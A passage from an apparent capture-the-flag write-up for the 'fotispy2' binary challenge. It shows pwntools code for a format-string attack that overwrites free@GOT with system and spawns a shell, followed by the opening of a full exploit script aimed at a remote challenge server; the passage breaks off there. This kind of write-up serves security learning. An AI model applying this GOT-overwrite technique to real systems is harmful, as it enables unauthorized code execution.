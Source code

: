 ```python
writes = {BASE + bin.got["free"]: system}

payload = fmtstr_payload(340, writes, numbwritten=32, write_size="short")
if b"\n" in payload:
    print("BAD PAYLOAD")
    exit(0)

format(io, payload, b"a", b"a")
```

Now `free@GOT` points to `system`. Entering `/bin/sh` as the username and `%` for the other fields causes a call to `free`, spawning a shell:

```python
# spawn shell.
io.recvuntil(b"[0] Register")
io.sendline(b"2")
io.recvuntil(b"title:")
io.sendline(b"/bin/sh\x00")
io.recvuntil(b"from:")
io.sendline(b"%")
io.recvuntil(b"on:")
io.sendline(b"%")
io.interactive()
```

## Full Exploit

```python
from pwn import *
from dbg import *

binary_path = "./fotispy2"
context.log_level = "INFO"
context.binary = bin = ELF(binary_path)

ctx = pwnio(bin,
            use_remote=True,
            use_debugger=True,
            debugger="rz",
            remote_ip="52.59.124.14",
            remote_port=5192,
            libc=ELF("libc.so"),
            ld=ELF("ld.so"),
            terminal="alacritty")

libc = ctx.libc
io = ctx.connect()

try:
    if ctx.use_debugger and not ctx.use_remote:
        # rizin script
        rz_script = f"""
        """

        ctx.debug(rz_script)
except Exception as e:
    print(e)


# EXPLOIT
ctx.cmd("dc", timeout=1)

# register
```